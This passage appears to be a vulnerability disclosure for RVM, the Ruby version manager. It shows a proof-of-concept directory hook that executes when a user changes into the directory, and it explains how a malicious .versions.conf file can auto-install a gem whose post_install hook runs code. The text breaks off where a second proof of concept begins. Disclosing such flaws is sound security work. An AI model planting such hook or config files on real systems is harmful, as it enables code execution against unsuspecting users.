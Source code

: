 ### POC

```text
rvm@e6aeaf6d79ec:~$ mkdir -p poc/.rvm/hooks

rvm@e6aeaf6d79ec:~$ cat > poc/.rvm/hooks/after_cd_poc
#!/bin/sh
echo "Command execution as $(id)"
^D

rvm@e6aeaf6d79ec:~$ chmod a+x poc/.rvm/hooks/after_cd_poc

rvm@e6aeaf6d79ec:~$ cd poc

Command execution as uid=1000(rvm) gid=1000(rvm) groups=1000(rvm)
rvm@e6aeaf6d79ec:~/poc$
```

CVE-2017-TBA RVM automatically installs gems as specified by files in $PWD
--------------------------------------------------------------------------

* Private disclosure date: 2016-10-31
* Public disclosure date: 2017-02-15
* Vendor advisory: <https://rvm.io/blog/2017/02/rvm-1-29-0>
* Affected versions: <=1.28.0

RVM, by default, hooks `cd` and automatically parses a file named
`.versions.conf` in the directory being changed to. This file can provide the
names of arbitrary gems, via `ruby-gem-install` entries, which will be
automatically passed to `gem install` upon `cd` into the directory. The code
responsible, as of a vulnerable commit, is available at
<https://github.com/rvm/rvm/blob/b04c0158d/scripts/functions/rvmrc_project#L100>.

This behaviour can be used to achieve immediate installation of an arbitrary
Ruby gem. This can be used to gain immediate Ruby code execution if that gem
defines a `post_install` hook. Furthermore, the gem can be located in `$PWD`,
making this a fully self-contained attack.

Thanks to <http://stackoverflow.com/a/33739910> for detailing the
`post_install` hook trick.

It is critical that `.versions.conf` specifies a version of Ruby that satisfies
RVM and will allow the user to successfully install gems. This may be a version
of Ruby that the user has installed via RVM, or it may be the magic value
`"system"` to specify that the base system's Ruby should be used (Note that
Ruby must be installed on the base system). If the magic value `"system"` is
used, then the user must be privileged so that the installation of the gem to
the system gem location can succeed. Hence, exploitation of an unprivileged
user is generally only possible when the user has installed a Ruby via RVM and
the exact version is known.

### POC

Install a known version of ruby via RVM:
